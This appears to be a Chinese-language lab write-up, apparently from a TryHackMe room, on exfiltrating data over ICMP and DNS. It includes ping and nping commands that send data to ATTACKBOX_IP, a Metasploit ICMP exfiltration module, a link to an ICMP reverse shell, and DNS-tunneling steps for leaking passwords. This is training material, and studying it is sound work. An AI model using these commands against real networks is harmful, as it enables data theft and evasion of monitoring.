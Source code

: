 ![在这里插入图片描述](https://img-blog.csdnimg.cn/f95e559c01694ece803c639b02f0bcab.png)

## ICMP

![在这里插入图片描述](https://img-blog.csdnimg.cn/5cbbc41ee8e340f6b0d5419fd76a2d0a.png)

**Linux 操作系统中的 ping 命令有一个有趣的 ICMP 选项。使用 -p 参数，我们可以以十六进制表示形式指定 16 个字节的数据以通过数据包发送。 请注意，-p 选项仅适用于 Linux 操作系统。**

```bash
echo "thm:tryhackme" | xxd -p 
ping xxxx -p <data>
```

### 数据外泄

让我们讨论如何使用 Metasploit 来泄露数据。Metasploit框架使用与上一节中解释的相同技术。但是，它将捕获传入的 ICMP 数据包并等待文件开头 （BOF） 触发器值。收到后，它会写入磁盘，直到获得文件结束 （EOF） 触发器值。

	auxiliary/server/icmp_exfil
	set BPF_FILTER icmp and not src ATTACKBOX_IP

nping --data-string 可以帮助快速发送数据

```bash
nping --icmp -c 1 ATTACKBOX_IP --data-string "BOFxxxxx"
nping --icmp -c 1 ATTACKBOX_IP --data-string "EOF"
```

### C2 通信

![在这里插入图片描述](https://img-blog.csdnimg.cn/a163d4e15fb94c3a9fb66333d5c9adee.png)

[ICMPDoor](https://github.com/krabelize/icmpdoor)是一个用Python3和scapy编写的开源反向shell

## DNS

**由于 DNS 不是传输协议，因此许多组织不会定期监控 DNS 协议！任何组织网络中的几乎所有防火墙都允许使用 DNS 协议。出于这些原因，威胁参与者更喜欢使用 DNS 协议来隐藏他们的通信。**

![在这里插入图片描述](https://img-blog.csdnimg.cn/9833e9bf8ee5403ab3c47118110db466.png)
### 数据外泄

1) 攻击者注册域名 tunnel.com
2) 攻击者设置隧道.com的 NS 记录指向攻击者控制的服务器。
3) 恶意软件或攻击者将敏感数据从受害计算机发送到他们控制的域名，例如 passw0rd.tunnel.com，其中 passw0rd 是需要传输的数据。
4) DNS 请求通过本地 DNS 服务器发送，并通过互联网转发。
5) 攻击者的权威 DNS（恶意服务器）接收 DNS 请求。
6) 最后，攻击者从域名中提取密码。

**有许多用例场景，但典型的场景是防火墙阻止并过滤所有流量。我们可以使用 DNS 协议通过防火墙传递数据或 TCP/UDP 数据包，但重要的是要确保允许 DNS 并将域名解析为 IP 地址。**

![在这里插入图片描述](https://img-blog.csdnimg.cn/a227d672f0fc4c77ad84b13bf4acf90f.png)
